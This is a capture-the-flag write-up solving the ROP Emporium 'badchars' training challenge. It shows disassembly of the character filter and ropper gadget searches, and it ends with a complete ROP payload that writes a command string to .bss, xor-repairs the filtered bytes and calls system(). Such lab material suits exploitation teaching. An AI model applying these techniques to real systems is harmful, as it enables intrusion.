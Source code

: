 ```yaml
---
title: 05_badchars
categories: [series, rop_emporium]
---
```


# ROP Emporium badchars

* **Tools:** IDA Free 7.0, gdb-gef, ropper, readelf
* **Prerequistes:** Stack frame
* **Download solution:** [main.py](/assets/series/rop_emporium/main.py)

## Overview

> "An arbitrary write challenge with a twist; certain input characters get mangled before finding their way onto the stack. [...]"

In this challenge, a function checks our input and if it contains some "special" characters, they are replaced by the byte `0xEB`. Otherwise, it is similar to the challenge [write4](/series/rop_emporium/ropemporium-write4/).

## Function pwnme() 

`_fgets()` takes an input of up to 0x200 bytes and stores it on the heap. Then, the length of this input is computed by the function `nstrlen()`: it stops when the character `0x0A` is found:
```
0x0000000000400A0E    mov     rdx, [rbp+user_input]
0x0000000000400A12    mov     rax, [rbp+i]
0x0000000000400A16    add     rax, rdx
0x0000000000400A19    movzx   eax, byte ptr [rax]
0x0000000000400A1C    cmp     al, 0Ah       ; line feed
0x0000000000400A1E    jnz     short next_char
0x0000000000400A20    add     [rbp+i], 1    ; +1
0x0000000000400A25    mov     rax, [rbp+i]
0x0000000000400A29    jmp     short exit
```
The length is returned in `rax` and used by the function `checkBadchars()` to check user input. Forbidden chars are replaced by `0xEB`:
```
0x0000000000400A90    mov     rdx, [rbp+user_input]
0x0000000000400A94    mov     rax, [rbp+i]  ; length input
0x0000000000400A98    add     rax, rdx
0x0000000000400A9B    movzx   edx, byte ptr [rax]
0x0000000000400A9E    lea     rcx, [rbp+badchars_array] ; <space>bcfins/
0x0000000000400AA2    mov     rax, [rbp+j]
0x0000000000400AA6    add     rax, rcx
0x0000000000400AA9    movzx   eax, byte ptr [rax]
0x0000000000400AAC    cmp     dl, al    ; cmp input[i], badchars[j]
0x0000000000400AAE    jnz     short ok
0x0000000000400AB0    mov     rdx, [rbp+user_input]
0x0000000000400AB4    mov     rax, [rbp+i]
0x0000000000400AB8    add     rax, rdx
0x0000000000400ABB    mov     byte ptr [rax], 0EBh ; patch
0x0000000000400ABE    jmp     short inc_counter
```
Once filtered, the user input is copied to the stack:
```
0x00000000004009B5    mov     rdx, [rbp+str_length] ; input length
[...]
0x00000000004009C5    mov     rsi, rax        ; src: filtered input
0x00000000004009C8    mov     rdi, rcx        ; dest
0x00000000004009CB    call    _memcpy
```

## Arbitraty write

As usual, `usefulFunction()` implements a "`call to system() with edi pointing to "/bin/ls"`". The string `"/bin/cat flag.txt"` is absent so we'll have to find an arbitrary write. 
The section `.bss` still seems to be a good place to write the string `"/bin/cat flag.txt"`:
```bash
readelf --sections ../challs/badchars
There are 31 section headers, starting at offset 0x1d08:

Section Headers:
[Nr] Name              Type             Address           Offset
     Size              EntSize          Flags  Link  Info  Align
[...]
[26] .bss              NOBITS           0000000000601080  00001080
       0000000000000030  0000000000000000  WA       0     0     32
[...]
```
We find 2 write gadgets:
```bash
ropper --search "mov [%]"  -f ../challs/badchars
[...]
[INFO] File: ../challs/badchars
0x0000000000400b35: mov dword ptr [rbp], esp; ret; 
0x0000000000400b34: mov qword ptr [r13], r12; ret; 
```
Focusing on the `r13` / `r12` pair:
```bash
ropper --search "??? r1?" -f ../challs/badchars
[...]
0x0000000000400bac: pop r12; pop r13; pop r14; pop r15; ret; 
0x0000000000400b3b: pop r12; pop r13; ret; 
0x0000000000400bae: pop r13; pop r14; pop r15; ret; 
0x0000000000400b3d: pop r13; ret; 
0x0000000000400b40: pop r14; pop r15; ret; 
0x0000000000400b42: pop r15; ret; 
```
In addition, if our input contains forbidden chars they will be replaced by `0xEB`. 
Whether we encode the user input before or let the function `checkBadchars()` replace the badchars, we'll need a gadget to fix things afterwards. In both cases a good old `xor` can do the trick:
```bash
ropper --search "xor ???" -f ../challs/badchars
[...]
0x0000000000400b30: xor byte ptr [r15], r14b; ret; 
0x0000000000400b31: xor byte ptr [rdi], dh; ret; 
```
And from the before last ropper output, we know we can control `r14` and `r15`.
Last gadget we need is a write into `rdi`:
```bash
ropper --search "??? rdi" -f ../challs/badchars
[...]
0x00000000004009d4: mov rdi, rax; call 0x6d0; nop; leave; ret; 
0x0000000000400b39: pop rdi; ret; 
```

## Building the chain

I opted for an non-encoded payload and just xoring the `0xEB` bytes to retrieve the correct `"/bin/cat flag.txt"` string. For example, let's say we want `0x62` to be the final result written somewhere: `0x62 ^ 0xEB = 0x89`.
The payload:
```python
payload = b''
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41'  # fill buffer
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41'  # fill buffer
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41'  # fill buffer
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41'  # fill buffer
payload += b'\x42\x42\x42\x42\x42\x42\x42\x42'  # fill buffer (overwrite RSP)

# Write to .bss
payload += b'\x3b\x0b\x40\x00\x00\x00\x00\x00'  # pop r12, pop r13, ret
payload += b'\x2f\x62\x69\x6e\x2f\x63\x61\x74'  # r12 = "/bin/cat"
payload += b'\x80\x10\x60\x00\x00\x00\x00\x00'  # r13 -> .bss
payload += b'\x34\x0b\x40\x00\x00\x00\x00\x00'  # mov [r13], r12

payload += b'\x3b\x0b\x40\x00\x00\x00\x00\x00'  # pop r12, pop r13, ret
payload += b'\x20\x66\x6c\x61\x67\x2e\x74\x78' # r12 = " flag.tx"
payload += b'\x88\x10\x60\x00\x00\x00\x00\x00'  # r13 -> .bss+8
payload += b'\x34\x0b\x40\x00\x00\x00\x00\x00'  # mov [r13], r12

payload += b'\x3b\x0b\x40\x00\x00\x00\x00\x00'  # pop r12, pop r13, ret
payload += b'\x74\x00\x00\x00\x00\x00\x00\x00'  # r12 = "t\x00"
payload += b'\x90\x10\x60\x00\x00\x00\x00\x00'  # r13 -> .bss+0x10
payload += b'\x34\x0b\x40\x00\x00\x00\x00\x00'  # mov [r13], r12

# Fix the \xEB bytes
# --- 0xc4 ^ 0xeb = 0x2f ("/")
payload += b'\x40\x0b\x40\x00\x00\x00\x00\x00'  # pop r14, pop r15, ret
payload += b'\xc4\x00\x00\x00\x00\x00\x00\x00'  # r14 = 0xc4 (xorkey n°1)
payload += b'\x80\x10\x60\x00\x00\x00\x00\x00'  # r15 -> .bss (found badchar n°1)
payload += b'\x30\x0b\x40\x00\x00\x00\x00\x00'  # xor [r15], r14b, ret
# --- 0x89 ^ 0xeb = 0x62 ("b")
payload += b'\x40\x0b\x40\x00\x00\x00\x00\x00'  # pop r14, pop r15, ret
payload += b'\x89\x00\x00\x00\x00\x00\x00\x00'  # r14 = 0x89 (xorkey n°2)
payload += b'\x81\x10\x60\x00\x00\x00\x00\x00'  # r15 -> .bss+1 (found badchar n°2)
payload += b'\x30\x0b\x40\x00\x00\x00\x00\x00'  # xor [r15], r14b, ret
# --- 0x82 ^ 0xeb = 0x69 ("i")
payload += b'\x40\x0b\x40\x00\x00\x00\x00\x00'  # pop r14, pop r15, ret
payload += b'\x82\x00\x00\x00\x00\x00\x00\x00'  # r14 = 0x82 (xorkey n°3)
payload += b'\x82\x10\x60\x00\x00\x00\x00\x00'  # r15 -> .bss+2 (found badchar n°3)
payload += b'\x30\x0b\x40\x00\x00\x00\x00\x00'  # xor [r15], r14b, ret
# --- 0x85 ^ 0xeb = 0x6e ("n")
payload += b'\x40\x0b\x40\x00\x00\x00\x00\x00'  # pop r14, pop r15, ret
payload += b'\x85\x00\x00\x00\x00\x00\x00\x00'  # r14 = 0x85 (xorkey n°4)
payload += b'\x83\x10\x60\x00\x00\x00\x00\x00'  # r15 -> .bss+3 (found badchar n°4)
payload += b'\x30\x0b\x40\x00\x00\x00\x00\x00'  # xor [r15], r14b, ret
# --- 0xc4 ^ 0xeb = 0x2f ("/")
payload += b'\x40\x0b\x40\x00\x00\x00\x00\x00'  # pop r14, pop r15, ret
payload += b'\xc4\x00\x00\x00\x00\x00\x00\x00'  # r14 = 0xc4 (xorkey n°5)
payload += b'\x84\x10\x60\x00\x00\x00\x00\x00'  # r15 -> .bss+4 (found badchar n°5)
payload += b'\x30\x0b\x40\x00\x00\x00\x00\x00'  # xor [r15], r14b, ret
# --- 0x88 ^ 0xeb = 0x63 ("c")
payload += b'\x40\x0b\x40\x00\x00\x00\x00\x00'  # pop r14, pop r15, ret
payload += b'\x88\x00\x00\x00\x00\x00\x00\x00'  # r14 = 0x88 (xorkey n°6)
payload += b'\x85\x10\x60\x00\x00\x00\x00\x00'  # r15 -> .bss+5 (found badchar n°6)
payload += b'\x30\x0b\x40\x00\x00\x00\x00\x00'  # xor [r15], r14b, ret
# --- 0xcb ^ 0xeb = 0x20 (" ")
payload += b'\x40\x0b\x40\x00\x00\x00\x00\x00'  # pop r14, pop r15, ret
payload += b'\xcb\x00\x00\x00\x00\x00\x00\x00'  # r14 = 0xcb (xorkey n°7)
payload += b'\x88\x10\x60\x00\x00\x00\x00\x00'  # r15 -> .bss+8 (found badchar n°7)
payload += b'\x30\x0b\x40\x00\x00\x00\x00\x00'  # xor [r15], r14b, ret
# --- 0x8d ^ 0xeb = 0x66 (f")
payload += b'\x40\x0b\x40\x00\x00\x00\x00\x00'  # pop r14, pop r15, ret
payload += b'\x8d\x00\x00\x00\x00\x00\x00\x00'  # r14 = 0x8d (xorkey n°8)
payload += b'\x89\x10\x60\x00\x00\x00\x00\x00'  # r15 -> .bss+9 (found badchar n°8)
payload += b'\x30\x0b\x40\x00\x00\x00\x00\x00'  # xor [r15], r14b, ret

# Get flag
payload += b'\x39\x0b\x40\x00\x00\x00\x00\x00'  # pop rdi, ret
payload += b'\x80\x10\x60\x00\x00\x00\x00\x00'  # ->"/bin/cat flag.txt"
payload += b'\xe8\x09\x40\x00\x00\x00\x00\x00'  # call _system()
payload += b'\x43\x43\x43\x43\x43\x43\x43\x43'  # dummy (stack alignment)
payload += b'\xb9\x07\x40\x00\x00\x00\x00\x00'  # hlt
```

---
EOF
